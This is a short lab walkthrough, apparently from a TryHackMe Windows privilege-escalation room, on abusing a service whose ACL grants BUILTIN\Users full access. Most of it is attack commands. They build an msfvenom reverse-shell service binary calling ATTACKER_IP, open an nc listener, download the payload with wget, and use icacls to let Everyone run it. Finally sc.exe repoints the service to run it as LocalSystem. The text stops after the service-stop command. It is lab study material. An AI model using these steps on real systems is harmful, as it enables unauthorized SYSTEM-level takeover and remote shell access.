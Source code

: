 \[0] ACCESS\_ALLOWED\_ACE\_TYPE: NT AUTHORITY\SYSTEM

SERVICE\_QUERY\_STATUS

SERVICE\_QUERY\_CONFIG

SERVICE\_INTERROGATE

SERVICE\_ENUMERATE\_DEPENDENTS

SERVICE\_PAUSE\_CONTINUE

SERVICE\_START

SERVICE\_STOP

SERVICE\_USER\_DEFINED\_CONTROL

READ\_CONTROL

\[4] ACCESS\_ALLOWED\_ACE\_TYPE: BUILTIN\Users

SERVICE\_ALL\_ACCESS

* BUILTIN\Users group has SERVICE\_ALL\_ACCESS permission.
  * Any user can reconfigure service.

**1. Build exe-service reverse shell in msfvenom.**

msfvenom -p windows/x64/shell\_reverse\_tcp LHOST=ATTACKER\_IP LPORT=4447 -f exe-service -o rev-svc3.exe

**2. Start listener for connection on attacker's machine.**

nc -lvnp 4447

Listening on \[0.0.0.0] (family 0, port 4447)

**3. Serve payload through python webserver.**

python3 -m http.server

Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...

**4. Pull payload from PowerShell.**

wget http://ATTACKER\_IP:8000/rev-svc3.exe -O rev-svc3.exe

**5. Move payload to C:\Users\thm-unpriv\rev-svc3.exe if necessary.**

**6. Grant "Everyone" permission to execute payload.**

icacls C:\Users\thm-unpriv\rev-svc3.exe /grant Everyone:F

**7. Change service's associated executable and account.**

* Note spaces after equal signs when using sc.
* LocalSystem account chosen as it is highest privilege account available.

sc.exe config thmservice binPath= "C:\Users\thm-unpriv\rev-svc3.exe" obj= LocalSystem

**8. Restart service to trigger payload.**

sc.exe stop thmservice
